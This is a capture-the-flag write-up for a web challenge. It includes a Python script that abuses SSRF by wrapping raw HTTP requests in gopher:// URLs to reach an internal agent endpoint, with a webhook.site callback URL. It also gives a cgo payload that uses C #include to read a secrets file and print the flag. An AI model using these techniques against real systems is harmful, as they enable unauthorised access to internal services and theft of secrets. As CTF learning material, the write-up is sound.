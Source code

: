 ```yaml
---
created: 2025-06-08T12:11
updated: 2025-06-08T12:16
unsolved: true
---
```


Couldn't solve it, however I think I got pretty close.

I have figured out how to make the server compile some random Go code I give it.

```python
import requests
import urllib


def http_request_to_gopher_url(host: str, port: int, raw_request: str) -> str:
    normalized = raw_request.replace('\r\n', '\n')
    lines = normalized.split('\n')
    normalized = "\r\n".join(lines)
    if not normalized.endswith("\r\n\r\n"):
        normalized += "\r\n\r\n"
    encoded_request = urllib.parse.quote(normalized, safe='')
    gopher_url = f"gopher://{host}:{port}/_{encoded_request}"
    return gopher_url


def build_raw_http_request(method: str, url: str, headers: dict = None, body: str = None) -> str:
    req = requests.Request(method=method, url=url, headers=headers, data=body)
    prep: requests.PreparedRequest = requests.Session().prepare_request(req)
    request_line = f"{prep.method} {prep.path_url} HTTP/1.1\r\n"
    header_lines = ""
    for key, value in prep.headers.items():
        header_lines += f"{key}: {value}\r\n"
    raw_request = request_line + header_lines + "\r\n"
    if prep.body:
        if isinstance(prep.body, bytes):
            raw_request += prep.body.decode('utf-8')
        else:
            raw_request += str(prep.body)
    if not raw_request.endswith("\r\n\r\n"):
        raw_request += "\r\n\r\n"
    return raw_request


target = "http://challs.nusgreyhats.org:33203"


payload = {
    "agentUrl": "https://webhook.site/040b3747-dc9c-48c0-b219-2de560eac4f0"
}


response = requests.post(target+"/register", json=payload)
uuid1 = response.text
print(f"first user uuid: {uuid1}")

code_payload = """
package main
import "fmt"

func main() {
    fmt.Println("Hello, world!")
}
// DUMMY CODE TO MAKE THE AGENT RUN
""".strip()

raw = build_raw_http_request("POST", f"http://127.0.0.1:8080/agent/{uuid1}/execute", headers={
    "Host": "127.0.0.1:8080",
}, body=code_payload)
gopher_url = http_request_to_gopher_url("127.0.0.1", 8080, raw)


payload['agentUrl'] = gopher_url
response = requests.post(target+"/register", json=payload)
uuid2 = response.text
print(f"second user uuid: {uuid2}")
```

---

After the CTF ended, I realized that the intended solution is to write C code in Go.

```c
package secrets

var Flag = "grey{5n34ky_60ph3r}";
```

The above can be made into valid C code using some defines.

```c
#define package 
#define secrets 
#define var char*
#include "/app/secrets/flag.go"
```

So the final payload would be:

```go
package main

/*
#define package 
#define secrets 
#define var char*
#include "/app/secrets/flag.go"
#include <stdio.h>
void printflag() {
    puts(Flag);
}
*/
import "C"

func main() {
    C.printflag()
}
```

And someone even backdoored the Go compiler itself damn.
